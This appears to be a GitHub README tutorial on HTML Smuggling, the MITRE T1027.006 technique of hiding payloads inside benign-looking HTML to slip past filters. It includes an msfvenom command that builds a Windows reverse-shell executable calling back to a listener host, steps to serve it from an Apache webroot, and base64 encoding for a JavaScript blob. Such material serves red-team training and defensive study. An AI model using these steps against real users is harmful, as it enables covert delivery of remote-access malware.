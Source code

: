 ```yaml
---
title: HTML Smuggling
category: Defense Evasion
tags: [HTML Smuggling (T1027.006), Obfuscated Files or Information (T1027), Delivery]
---
```

# HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.

 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.

    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe

    cp payload.exe /var/www/html
Then we copy this into the apache webroot and start the apache server

    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start
But in order to supply this into our blob as a buffer, we need a single string with no enters. This fixing be done manually by copying this output in notepad and removing enters or you could follow our alternate approach by going to ***[base64.guru](https://base64.guru/)*** website.
Here, upload your payload and the converted base64 shall be given in a single line.

## GitHub Repoitory

https://github.com/ashizZz/HTML-Smuggling